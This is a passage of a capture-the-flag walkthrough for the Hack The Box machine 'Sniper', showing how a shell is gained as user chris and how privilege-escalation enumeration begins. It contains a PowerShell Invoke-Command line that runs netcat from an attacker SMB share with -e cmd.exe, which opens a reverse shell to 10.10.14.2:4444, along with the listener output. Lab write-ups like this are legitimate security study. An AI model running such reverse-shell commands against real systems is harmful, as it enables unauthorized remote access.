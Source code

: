 ```
Logon hours allowed          All

Local Group Memberships      *Remote Management Use*Users                
Global Group memberships     *None                 
The command completed successfully.
```

Start the NetCat Listener on Port 4444 again and run the following command.
```
PS C:\inetpub\wwwroot\blog> Invoke-Command -ScriptBlock {\\10.10.14.2\a\nc64.exe -e cmd.exe 10.10.14.2 4444} -Credential $cred -Computer localhost
```

On the NetCat Side.
```
# nc -lvnp 4444 
listening on [any] 4444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.151] 49734
Microsoft Windows [Version 10.0.17763.678]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Chris\Documents>whoami
whoami
sniper\chris
```
Get your user flag
### `Privilege Escalation`

When I was trying to upload `winpeas`, I was somehow getting Limited Disk Usage error. So i decided to perform manual enumeration.
Some of the Interesting directories I found.
```
PS C:\> dir
    Directory: C:\
Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----       10/25/2024   3:46 AM                Docs     

PS C:\Docs> dir
dir
    Directory: C:\Docs
Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        4/11/2019   9:31 AM            285 note.txt                                                              
-a----        4/11/2019   9:17 AM         552607 php for dummies-trial.pdf  
```

```
PS C:\Docs> type note.txt
type note.txt
Hi Chris,
        Your php skillz suck. Contact yamitenshi so that he teaches you how to use it and after that fix the website as there are a lot of bugs on it. And I hope that you've prepared the documentation for our new app. Drop it here when you're done with it.

Regards,
Sniper CEO.
```
